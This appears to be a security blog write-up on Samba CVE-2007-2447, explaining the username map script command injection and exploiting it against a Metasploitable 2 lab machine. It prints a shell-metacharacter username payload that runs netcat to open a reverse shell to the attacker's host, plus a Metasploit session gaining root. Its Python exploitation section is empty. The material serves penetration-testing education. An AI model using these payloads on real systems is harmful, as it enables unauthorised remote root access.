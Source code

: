 ```yaml
---
layout: post
title:  "Samba CVE2007-2447"
categories: [Technical]
tags: [command execution, exploit, python]
draft: false
---
```


### Introduction

On May 7th 2007, a vulnerability found within Samba was reported via email to their security@samba.com mail alias. This bug was initially reported against the anonymous calls to the `SamrChangePassword()` [MS-RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) function in combination with the "username map script" `smb.conf` option (which is not enabled by default). The bug was disclosed publicly on May 14th.

However, after investigation from developers at Samba they found the bug to be much broader noting that it also impacted remote printer & file share management. The root cause is due to passing unfiltered user input provided by MS-RPC calls to `/bin/sh` when invoking external scripts defined in `smb.conf`. Interestingly the vulnerability found with the "username map script" can be exploited without authenticatiton unlike the bug found in remote printer & file share management scripts, those require an authenticated session.

### So, how does it work?

In general there isn't much to discuss regarding this bug, it's fairly simple - by sending [shell metacharacters](http://faculty.salina.k-state.edu/tim/unix_sg/shell/metachar.html) as the username we trigger the bug and thus allowing us to send aribitary commands to the device. As we mentioned earlier, no authenication is required to exploit this due to the fact that the option is used to map usernames prior to authentication and thus we can exploit this whilst being unauthenticated.

### Code Review

Sadly I was unable to find the source code that was affected for this CVE thus I cannot do a review on it, I'm not sure if anyone has it but if you do I'd greatly appreciate it! You can contact me on Twitter which is linked at the bottom of the page.

### Exploit

We can exploit this vulnerability using the [Metasploit module](https://www.exploit-db.com/exploits/16320/) however, this is another exploit that is easy to execute manually. As per usual we will exploit the vulnerability with Metasploit, manually and write our own script for the exploit.

It's worth noting in the below examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Exploiting this one manually has a few steps but it's not too tricky, it's not exactly efficient but it does the trick! Firstly we need to setup a listening on netcat, open a termninal and use `netcat -nvlp` the actual listener is defined with `l` so you might be wondering what all of this means? Well, `-n` tells Netcat not to resolve names, `-v` specifies to give us a verbose output when printing, `-l` specifies to create the listener as we mentioned and `-p` will create that listener on *any* local port.

```
root@LinxzSecKali:~# netcat -nvlp 4444
listening on [any] 4444 ...
```

Once we have the listener setup we are now going to open a new terminal and check the victims shares, we can do this with `smbclient -L //192.168.139.133` where `-L` will get a list of shares available on a host. We're using Metasploitable 2 as mentioned.

```
root@LinxzSecKali:~# smbclient -L //192.168.139.133
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            METASPLOITABLE
  
```
We're going to focus on the `tmp` folder & attempt to connect to the victim using `smbclient  //192.168.139.133/tmp` now you should receive the following back from the target.

```
root@LinxzSecKali:~# smbclient  //192.168.139.133/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
```

Next, we need to setup the reverse shell, you should see a prompt that looks like this after the previous command `smb: \>` this is good news, next we need to send `logon` to the target with logon ```logon/=`nc 192.168.139.135 4444 -e /bin/bash``` this time make sure you use your machines ip & not the targets! If we switch back to our terminal we created the netcat listener in you should see this.

```
root@LinxzSecKali:~# netcat -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.139.135] from (UNKNOWN) [192.168.139.133] 36513
```
Now you can execute commands and see that we've owned the machine! As I mentioned, there's a few steps for us to carry out but it's all relatively simple stuff. If in doubt just use `--help` :p


#### Metasploit Exploitation

Load Metasploit using `msfconsole` then run `use exploit/multi/samba/usermap_script` this will tell Metasploit to use that module, next you will need to set the `rhost` with the IP address of your target, you don't need to specify another payload for the bind shell as the Metasploit module will do this for you on your machines IP & port 4444. That's it! You now have a shell with whatever privliges the account Samba is running on has.

```
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/samba/usermap_script) > set RHOST 192.168.139.133
RHOST => 192.168.139.133
msf exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 192.168.139.135:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo iogIbtev3qMtahR5;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "iogIbtev3qMtahR5\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.139.135:4444 -> 192.168.139.133:44662) at 2018-11-17 15:35:19 +0000

id;
uid=0(root) gid=0(root)
whoami;
root
```


### Python Exploitation



### References

[Samba Security CVE2007-2447](https://www.samba.org/samba/security/CVE-2007-2447.html)

[Rapid 7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

[CVE Details 2007-2447](https://www.cvedetails.com/cve/cve-2007-2447)

